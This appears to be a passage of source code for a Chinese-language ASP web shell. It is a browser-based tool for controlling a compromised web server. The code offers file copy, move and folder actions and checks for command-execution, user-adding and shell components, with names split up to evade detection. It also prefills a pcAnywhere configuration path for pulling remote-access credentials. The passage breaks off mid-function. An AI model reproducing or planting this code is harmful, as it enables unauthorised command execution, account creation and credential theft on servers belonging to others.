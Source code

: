 j"<script>function killErrors(){return true;}window.onerror=killErrors;function yesok(){if (confirm(""确认要执行此操作吗？""))return true;else return false;}function runClock(){theTime = window.setTimeout(""runClock()"", 100);var today = new Date();var display= today.toLocaleString();window.status=""→"&Copyright&"  --""+display;}runClock();function ShowFolder(Folder){top.addrform.FolderPath.value = Folder;top.addrform.submit();}function FullForm(FName,FAction){top.hideform.FName.value = FName;if(FAction==""CopyFile""){DName = prompt(""请输入复制到目标文件全名称"",FName);top.hideform.FName.value += ""||||""+DName;}else if(FAction==""MoveFile""){DName = prompt(""请输入移动到目标文件全名称"",FName);top.hideform.FName.value += ""||||""+DName;}else if(FAction==""CopyFolder""){DName = prompt(""请输入移动到目标文件夹全名称"",FName);top.hideform.FName.value += ""||||""+DName;}else if(FAction==""MoveFolder""){DName = prompt(""请输入移动到目标文件夹全名称"",FName);top.hideform.FName.value += ""||||""+DName;}else if(FAction==""NewFolder""){DName = prompt(""请输入要新建的文件夹全名称"",FName);top.hideform.FName.value = DName;}else{DName = ""Other"";}if(DName!=null){top.hideform.Action.value = FAction;top.hideform.submit();}else{top.hideform.FName.value = """";}}</script>"
j"<body" :If Action="" then j " scroll=no":j ">"
Dim ObT(18,2):Fn=Action:ObT(0,0) = "Scripting.FileSystemObject":ObT(0,2) = "文 件 读 写 组 件":ObT(1,0) = "wscript.shell":ObT(1,2) = "CMD命令行执行组件":ObT(2,0) = "ADOX.Catalog":ObT(2,2) = "ACCESS 建 库 组 件":ObT(3,0) = "JRO.JetEngine":ObT(3,2) = "ACCESS 压 缩 组 件":ObT(4,0) = "ws"&"cript.shell.1":  OBt(4,2) = "CMD命令行执行组件二":OBT(5,0) = "WS"&"CRIPT.NETWORK":  OBt(5,2) = "服务器信息组件":OBT(6,0) = "she"&"ll.appl"&"ication":OBt(6,2) = "无FSO时执行组件":OBT(7,0) = "sh"&"ell.appl"&"ication.1":OBt(7,2) = "无FSO时执行组件":OBT(8,0) = "Shell.Users":OBt(8,2) = "无NET.E添加用户组件"
For i=0 To 8:Set T=Server.CreateObject(ObT(i,0)):If -2147221005 <> Err Then:IsObj=" √":Else:IsObj=" ×":Err.Clear:End If:Set T=Nothing:ObT(i,1)=IsObj:Next:If FolderPath<>"" then:Session("FolderPath")=RRePath(FolderPath):End If:If Session("FolderPath")="" Then:FolderPath=WwwRoot:Session("FolderPath")=FolderPath:End if
Function PcAnywhere4()
j"<div align='center'>PcAnywhere版本</div><form name='xform' method='post'><table width='80%'border='0'><tr><td width='10%'>cif文件: </td><td width='10%'><input name='path' type='text' value='C:\Docume~1\AllUse~1\Applic~1\Symantec\pcAnywhere\Citempl.cif' size='80'></td><td><input type='submit' value=' 提交 '></td></table>"
end Function

j"</form><script>function RUNonclick(){document.xform.china.name = parent.pwd.value;document.xform.action = parent.url.value;document.xform.submit();}</script>"

Function StreamLoadFromFile(sPath)
Dim oStream
Set oStream = Server.CreateObject("Adodb.Stream")
With oStream
.Type = 1
.Mode = 3
.Open
.LoadFromFile(sPath)
.Position = 0
StreamLoadFromFile = .Read
.Close
End With
Set oStream = Nothing
End Function
Function hexdec(strin) 
Dim i, j, k, result 
result = 0 
For i = 1 To Len(strin) 
If Mid(strin, i, 1) = "f" Or Mid(strin, i, 1) ="F" Then 
 j = 15 
End If 
If Mid(strin, i, 1) = "e" Or Mid(strin, i, 1) = "E" Then 
 j = 14 
End If 
If Mid(strin, i, 1) = "d" Or Mid(strin, i, 1) = "D" Then 
 j = 13 
End If 
If Mid(strin, i, 1) = "c" Or Mid(strin, i, 1) = "C" Then 
 j = 12 
End If 